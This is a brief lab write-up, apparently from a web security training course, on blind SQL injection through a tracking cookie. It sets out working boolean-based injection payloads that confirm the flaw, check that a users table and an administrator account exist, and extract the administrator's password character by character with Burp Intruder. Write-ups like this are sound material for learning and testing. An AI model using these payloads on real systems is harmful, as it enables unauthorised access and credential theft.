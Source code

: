 Lab #11 - Blind SQL Injection with conditional responses

Vulnerable parameter - Tracking Cookie

End Goals:

- Enumerate the password of administrator
- Login as administrator user

Analysis:

1. Confirm that the parameter is vulnerable to blind sqli

select tracking-id from tracking-table where trackingId = '5nGtNEmM1huhUPes'

- If the tracking id exists => query returns value => Welcome back
- If it doesn't exist => query returns nothing => no Welcome back

select tracking-id from tracking-table where trackingId = '5nGtNEmM1huhUPes' and 1=1--' -> ```True``` -> _Welcome back_

select tracking-id from tracking-table where trackingId = '5nGtNEmM1huhUPes' and 1=2--' -> _False_ -> _no Welcome back_

2. Confirm that we have a users table

select tracking-id from tracking-table where trackingId = '5nGtNEmM1huhUPes' and (select 'x' from users LIMIT 1)='x'-- ' -> _if users table exists_ -> _True_ -> _Welcome back_ ==> users table exists

3. Confirm username administrator exists in users table

select tracking-id from tracking-table where trackingId = '5nGtNEmM1huhUPes' and (select username from users where username='administrator')='administrator'-- ' -> _if username administrator exists_ -> _True_ -> _Welcome back_ ==> user administrator exists

4. Enumerate password for the administrator user

select tracking-id from tracking-table where trackingId = '5nGtNEmM1huhUPes' and (select username from users where username='administrator' and LENGTH(password)>=1)='administrator'-- ' ==> _length of password is 20_

select tracking-id from tracking-table where trackingId = '5nGtNEmM1huhUPes' and (select substring(password,1,1) from users where username='administrator')='a'-- ' ==> _gives the administrator's password_ [with the help of intruder(burp)]
